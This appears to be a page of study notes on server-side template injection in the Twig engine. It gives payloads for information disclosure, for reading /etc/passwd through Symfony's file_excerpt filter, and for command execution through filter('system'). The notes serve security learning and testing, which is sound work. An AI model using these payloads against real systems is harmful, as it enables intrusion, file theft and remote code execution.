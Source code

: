 
## 📌 1. Information Disclosure

### 🔸 Accessing template metadata
```twig
{{ _self }}
```
- Reveals limited information about the current template.
- Much less powerful than Jinja2 for introspection.

---

## 📂 2. Local File Inclusion (LFI)

### 🔸 Using Symfony's `file_excerpt` filter (if available)
```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
- Reads contents of local files.
- Requires `file_excerpt` filter (defined in **Symfony**, not native Twig).

---

## 💥 3. Remote Code Execution (RCE)

### 🔸 Executing a system command using `filter('system')`
```twig
{{ ['id'] | filter('system') }}
```
- Executes `system('id')` in PHP.
- Relies on PHP's `system()` function and Twig’s `filter()` feature.

---

## 📝 Further Remarks

- Each template engine (e.g., Jinja2, Twig) has a unique syntax and different capabilities.
- The exploitation principles are **similar**, but syntax and feature access vary.
- Attackers can:
  - Read the official documentation for the target engine.
  - Use **SSTI cheat sheets**, like those from **PayloadsAllTheThings**.

---

## 🛠️ Tip
> Familiarity with the target template engine's syntax and functions is key to successful exploitation.


---
---
---

